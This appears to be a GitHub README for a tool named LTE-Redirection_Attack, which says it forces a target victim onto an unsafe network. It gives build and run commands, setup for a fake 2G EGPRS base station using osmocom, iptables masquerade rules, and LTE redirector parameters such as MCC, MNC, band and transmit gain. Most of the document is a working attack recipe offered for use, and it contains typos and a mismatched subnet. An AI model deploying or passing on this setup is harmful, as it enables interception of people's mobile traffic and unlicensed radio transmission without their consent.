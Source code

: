 [![](https://youtu.be/0aruLybY__w)]

# LTE-Redirection_Attack
Force target victim to unsafe network


Tested on ubuntu 22.04

## Build
```bash
sudo ./build.sh
```


## Run

```bash
sudo ./run.sh
```

2G EGPRS Fake base Station :

Change if not in osmocom terminal osmo-bsc.cfg remote ip 192.168.1.23 by your internet interface : remote ip 192.168.X.X
Change in osmo-sgsn.cfg bind udp local, listen 192.168.1.23 by yours


In Osmocom Popped Terminal (change MCC//MNC accordingly in osmo-bsc.cfg osmo-bsc.cfg)

```bash
./tun.sh
./osmo-all.sh start
osmo-trx-uhd
```

Forward your ip in host terminal:
```bash
bash reset_iptables.sh
./srsepc_if_masq.sh your_interface
iptables -A POSTROUTING -t nat -s 176.16.32.0/20 ! -d 176.32.16.0/20 -j MASQUERADE
./srsepc_if_masq.sh your_interface
```


LTE Node redirector

```bash
write mcc (replace)
write mnc (relace)
wirte tracking_area_code (replace)
write mcc (replace)
write mnc (replace)
write band (replace)
write dl_earfcn (replace)
write tx_gain 80
write rx_gain 30
start
``` 
